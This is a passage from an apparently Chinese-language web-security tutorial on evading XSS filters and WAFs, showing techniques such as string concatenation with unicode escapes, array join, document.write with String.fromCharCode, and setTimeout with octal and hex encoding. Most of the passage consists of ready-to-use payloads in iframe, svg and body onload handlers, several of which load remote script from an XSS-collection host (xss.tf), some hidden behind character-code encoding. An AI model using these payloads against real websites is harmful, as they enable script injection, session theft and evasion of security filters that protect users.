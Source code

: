 如果concat被拦截，可以尝试编码

&lt;iframe onload=s=createElement(‘script’);body.appendChild(s);s.src=’http://x’.\u0063oncat(‘ss.tf/’,’eeW’); &gt;

### <a name="header-n89"></a>join()

join函数将数组转换成字符串

[![](https://p2.ssl.qhimg.com/t0145e6a3e1259c863d.png)](https://p2.ssl.qhimg.com/t0145e6a3e1259c863d.png)

那么我们可以将一些关键字作为数组，再用join连接，转化成字符串。

&lt;iframe onload=location=[‘javascript:alert(1)’].join(”)&gt;<br>
&lt;iframe onload=location=[‘java’,’script:’,’alert(1)’].join(”)&gt;

[![](https://p3.ssl.qhimg.com/t015432e766ca22b899.png)](https://p3.ssl.qhimg.com/t015432e766ca22b899.png)

### <a name="header-n96"></a>document.write

document.write向页面输出内容。

[![](https://p0.ssl.qhimg.com/t01cbbb729878afb413.png)](https://p0.ssl.qhimg.com/t01cbbb729878afb413.png)

[![](https://p4.ssl.qhimg.com/t016cfd2c1c2e27390a.png)](https://p4.ssl.qhimg.com/t016cfd2c1c2e27390a.png)

&lt;script&gt;alert(1)&lt;/script&gt;Ascii编码

&lt;body/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)) &gt;

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01570502a41424f7bf.png)

也可以直接插入js代码&lt;sCrIpt srC=http://xss.tf/eeW&gt;&lt;/sCRipT&gt;

&lt;body/onload=document.write(String.fromCharCode(60,115,67,114,73,112,116,32,115,114,67,61,104,116,116,112,58,47,47,120,115,115,46,116,102,<br>
47,101,101,87,62,60,47,115,67,82,105,112,84,62))&gt;

[![](https://p1.ssl.qhimg.com/t015f36e651b9e964d6.png)](https://p1.ssl.qhimg.com/t015f36e651b9e964d6.png)

### <a name="header-n107"></a>setTimeout()

setTimeout(‘要执行的代码’)

[![](https://p2.ssl.qhimg.com/t01854f73f5db0b23cf.png)](https://p2.ssl.qhimg.com/t01854f73f5db0b23cf.png)

alert(1)编码，即可轻松绕过waf

&lt;svg/onload=setTimeout(‘\141\154\145\162\164\50\61\51’)&gt;<br>
&lt;svg/onload=\u0073etTimeout(‘\141\154\145\162\164\50\61\51’)&gt;<br>
&lt;svg/onload=setTimeout(‘\x61\x6C\x65\x72\x74\x28\x31\x29’)&gt;<br>
&lt;svg/onload=setTimeout(String.fromCharCode(97,108,101,114,116,40,49,41))&gt;

